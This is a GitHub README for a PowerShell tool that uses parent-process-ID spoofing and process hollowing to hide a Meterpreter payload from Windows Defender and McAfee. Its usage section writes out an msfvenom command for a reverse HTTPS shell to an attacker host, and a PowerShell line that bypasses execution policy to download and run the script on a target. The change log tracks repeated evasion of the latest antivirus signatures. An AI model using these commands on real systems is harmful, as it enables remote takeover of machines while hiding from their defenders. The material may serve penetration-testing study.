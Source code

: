 # Reflective PPID ⧓ ProcHollow
**A powershell script that performs reflective parent process ID (PPID) spoofing and process hollowing to evade Windows Defender**

```
                                        _____  _____ _____ _____                            
                                       |  __ \|  __ \_   _|  __ \                           
                                       | |__) | |__) || | | |  | |                          
           ((((((((*                   |  ___/|  ___/ | | | |  | |              /#######(         
        (((((((((((((((,               | |    | |    _| |_| |__| |              *##############(      
       ((((((((((((((((((((            |_|    |_|   |_____|_____/           .##################((     
      (((((((((((((((((((((((((                                         ######################(((    
      (((((((((((((((((((((((((((((     **                   /,     ##########################(((    
      ((((((((((((((((((((((((((((((((,     ************,,,     *#############################(((    
      ((((((((((((((((  ,(((((((((((((((,   ************,,,   ###############(,  #############(((    
      (((((((((((((((*                      ************,,,   ,                  (############(((    
      ((((((((((((((((((((((((((((((,       ************,,,       ,###########################(((    
      ((((((((((((((((((((((((((((((((((,   ************,,,   ################################(((    
      (((((((((((((((((((((((((((((.        ************,,,        ,(#########################(((    
      (((((((((((((((*                 ,.   ***********,,,,   /,                 #############(((    
      (((((((((((((((( ,((((((((((((((((,   ,,,,,,,,,,,,,,,   (((##############, #############(((    
      ((((((((((((((((((((((((((((((((      ,,,,,,,,,,,,,,,      ((((########################((((    
      ((((((((((((((((((((((((((((.     **                   /*     *((((###################(((((    
      ((((((((((((((((((((((((/     *///                      .///,     ((((#############((((((((    
       ((((((((((((((((((((     .////*                           /////      ((((((((((((((((((((     
        (((((((((((((((      //**.                                   ,**//      ((((((((((((((/      
           *(((((((        _____                _    _       _ _                      .(((((((.         
                          |  __ \              | |  | |     | | |              
                          | |__) | __ ___   ___| |__| | ___ | | | _____      __
                          |  ___/ '__/ _ \ / __|  __  |/ _ \| | |/ _ \ \ /\ / /
                          | |   | | | (_) | (__| |  | | (_) | | | (_) \ V  V / 
                          |_|   |_|  \___/ \___|_|  |_|\___/|_|_|\___/ \_/\_/  
```

The script has been hardcoded to search for a parent process (svchost.exe) that matches the current logged on user's privilege and spawns a child process (taskhostw.exe). Feel free to edit the script to take in arguments

*I developed the v1.0 script and have been using it since OSEP days... but it recently triggered an alert for Windows Defender. Decided to improve it to evade again, enjoy script v1.2😀*

## Demo Video
YouTube (higher resolution): https://www.youtube.com/watch?v=GB59m-KJvd0
![Alt text](480.gif?raw=true "Demo")

## Usage
1. Generate msfvenom payload
`msfvenom -p windows/x64/meterpreter/reverse_https LHOST=KALI_IP LPORT=443 EXITFUNC=thread -f ps1`
2. Search for `Your payload here` in the script and replace it with the generated payload
3. Host the script on your kali `python3 -m http.server 8088`
4. On your target machine `powershell -ep Bypass -c IEX(New-Object System.Net.WebClient).DownloadString('http://KALI_IP:8088/Reflective-PPIDxProcHollow_v1.2.ps1')`

## Disclaimer
The usage section might make it seem like a 'fileless' approach but the v1.1 script **does write temporarly artifacts to disk**. I know disk is lava🔥 so use v1.2 (reflective)

## Evading Windows Defender
- The v1.0 script creates an alert on Windows Defender upon launching cmd.exe from meterpreter shell. However, your meterpreter shell will still be **kept alive** despite the alert.
- The v1.1 script eradicates the issue of v1.0 and it also makes the process looks more legitimate by spawning it under another parent process through PPID Spoofing. However, EWT can still catch PPID Spoofing method.
- The v1.1 script has been tested on the latest Windows Defender (updated before testing the script)
    ![Alt text](WinDefSignatureUpdate.png?raw=true "Windows Defender using latest signature version")
- The v1.1 script has been tested on McAfee too
![Alt text](EvadeMcAfee.png?raw=true "McAfee")
- The v1.2 script evades more AV/EDR due to it not touching disk at all 😁

## Change Logs
2022-12-12 -- v1.2
   - Converted the script to reflective
   - Disk is lava: Resolved v1.1 issue on temporarly artifacts written to disk.
   - Evading latest Windows Defender again as of 12 Dec 2022
   
2022-12-10 -- v1.1
   - Integrated with PPID spoofing
   - Evading latest Windows Defender again as of 10 Dec 2022

2021-09-18 -- v1.0
   - Simple Process Hollowing
   - Windows Defender alert pop up when launch cmd.exe but our meterpreter shell will not die


